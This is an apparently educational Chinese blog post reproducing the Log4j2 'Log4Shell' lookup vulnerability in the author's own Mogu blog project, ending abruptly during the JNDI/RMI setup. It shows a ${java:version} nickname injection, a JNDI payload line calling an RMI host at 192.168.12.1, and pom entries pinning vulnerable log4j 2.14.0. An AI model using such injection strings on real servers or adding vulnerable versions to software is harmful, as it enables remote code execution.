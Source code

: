 大家好，我是白。

昨天在蘑菇的群里，都是讨论关于 **log4j** 的安全漏洞，白看了看他们的聊天内容，一句话：**核弹级的漏洞**。

![image-20211211101637119](images/image-20211211101637119.png)

此次漏洞是用于 **Log4j2** 提供的 **lookup** 功能造成的，该功能允许开发者通过一些协议去读取相应环境中的配置。但在实现的过程中，并未对输入进行严格的判断，从而造成漏洞的发生。

攻击者可通过构造恶意请求利用该漏洞实现在目标服务器上执行任意代码。可导致服务器被黑客控制，从而进行页面篡改、数据窃取、挖矿、勒索等行为。建议使用该组件的用户第一时间启动应急响应进行修复。



## 什么是 lookup

我从 **Apache** **log4j2**的官网上，找到了关于 **lookup** 的介绍，地址如下：

> https://logging.apache.org/log4j/2.x/manual/lookups.html

一句话来概括：**lookup** 的主要功能就是提供另外一种方式以添加某些特殊的值到日志中，**以最大化松散耦合地提供可配置属性供使用者以约定的格式进行调用**。

例如：**JavaLookup** 允许使用 **java:** 前缀以方便的预格式化字符串形式检索 **Java** 环境信息。

```bash
# 获取java版本
java:version
# 获取java虚拟机版本
java:vm
```

## 漏洞查找

白百度了一下，都是关于如何修复这个漏洞的，但是没有讲如何复现出这个漏洞的。

白本着学习的态度，在蘑菇中寻找是否存在可能被注入的漏洞的地方，通过 **IDEA** 的检索很快发现，在 **mogu-web** 项目的拦截器里，会获取到用户的昵称，然后通过 **log** 日志打印出来。

![](images/image-20211211103106525.png)

## 漏洞复现

由于蘑菇博客项目使用的是 **SpringBoot** 默认的 **logback** ，不存在上述的漏洞。通过打印日志，可以看出没有任何效果。

![](images/image-20211211103331791.png)

下面，白打算给蘑菇的日志更换成 **log4j2** 日志框架，首先修改 **pom.xml** 文件，然后加入下面的配置，首先排除掉 **SpringBootStarter** 里的默认日志，在引入我们今天的主角 **log4j2** 日志框架

```xml
<!-- 排除默认日志框架 -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter</artifactId>
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
<!-- Log4j2 start 日志框架 -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-log4j2</artifactId>
</dependency>
<!-- Log4j2 end -->
```

然后再次运行本次代码，发现我们的编写的一段 **JavaLookUp** 字符串被转换成获取系统的配置了。

![image-20211211112402759](images/image-20211211112402759.png)

下面，我们启动蘑菇项目，然后修改自己的昵称，改成特殊的 **JavaLookUp** 语句：**${java:version}**

![image-20211211112738831](images/image-20211211112738831.png)

因为上面提到，蘑菇在拦截器中，会通过日志输出用户的昵称。

在门户修改完昵称后，再次查看日志，可以发现：昵称变成了 **Java** 版本号，说明我们的昵称配置已经生效了，并且输出了对应的 **Java** 版本

![image-20211211112845702](images/image-20211211112845702.png)

## 开始侵入

上面提到的 **JavaLookUp** 只是提供的一些日志获取系统变量的方法，对我们的系统其实没有多大影响，最多就导致系统获取的日志除了一些问题。

但是最致命的问题是，**LookUp** 是支持 **JNDI**，关于 **JNDI** 可以看下面的介绍：

**JNDI** ( Java Naming and Directory Interface, **Java** 命名和目录接口)是 **SUN** 公司提供的一种标准的 **Java** 命名系统接口，**JNDI** 提供统一的客户端 **API**，通过不同的访问提供者接口 **JNDI** 服务供应接口 **(SPI)** 的实现，由管理者将 **JNDI API** 映射为特定的命名服务和目录系统，使得 **Java** 应用程序可以和这些命名服务和目录服务之间进行交互。

通过 **JNDI** 相关的 **API** 中，还提供 **RMI** 的功能 ，下面是关于 **RMI** 的介绍：

**RMI** (Remote Method Invocation)远程方法调用是一种计算机之间对象互相调用对方函数，启动对方进程的一种机制，使用这种机制，某一台计算机上的对象在调用另外一台计算机上的方法时，使用的程序语法规则和在本地机上对象间的方法调用的语法规则一样。

首先，**我们在** SpringBoot 的官网，快速生成一个项目

![image-20211211114404537](images/image-20211211114404537.png)

然后导入到 **IDEA** 中，然后创建两个类 **RmiServer.java**





${jndi.rmi://192.168.12.1:8888/danger}





在注册服务前，输入命令start rmiregistry，会弹出以下方框



start rmiregistry



```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.0</version>
</dependency>

<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.0</version>
</dependency>
```

